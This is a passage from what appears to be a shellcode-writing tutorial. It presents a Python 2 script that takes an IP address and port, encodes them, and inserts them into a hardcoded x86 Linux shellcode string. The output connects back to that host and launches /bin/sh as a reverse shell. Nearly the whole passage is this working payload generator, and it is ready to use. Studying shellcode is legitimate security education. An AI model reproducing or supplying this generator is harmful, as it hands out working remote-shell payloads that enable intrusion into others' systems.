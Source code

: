 Now we will make a python script to replace the IP and port numbers so that we have easily created shellcode!  This will just replace the IP and port within the shellcode and output the new version.
```python
import struct
import sys
import socket
import binascii

def main():
	if len(sys.argv) != 3:
		print "Usage: {0} IP PORT".format(sys.argv[0])
		exit()

	ip = sys.argv[1]
	
	port = int(sys.argv[2])
	# bounds checking
	if not (0 <= port <= 65535):
		print "That's not a real port number!"
		exit()

	# check well known ports
	if port <= 1024:
		print "Reminder: Well known port needs to be run as root"
	
	ip = socket.inet_aton(ip)	
	ip = binascii.hexlify(ip)
	ip = '\\x'+ip[0:2]+'\\x'+ ip[2:4] + '\\x' + ip[4:6] + '\\x' + ip[6:]

	port = r'\x' + r'\x'.join(x.encode('hex') for x in struct.pack('!H', port))	

	# check nulls
	if r'\x00' in ip:
		print 'Null in that ip. Try again.'
		exit()
	if r'\x00' in port:
		print 'Null in that port number. Try again.'
		exit()

	shellcode = "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\xb0\\x66\\xb3\\x01\\x51\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x89\\xc7\\xb0\\x66\\x43\\x68" + ip + "\\x66\\x68" + port + "\\x66\\x53\\x43\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xcd\\x80\\x89\\xfb\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xd1\\xb0\\x0b\\xcd\\x80"


	print "Shellcode: " + shellcode
	
if __name__=="__main__":
	main()
```

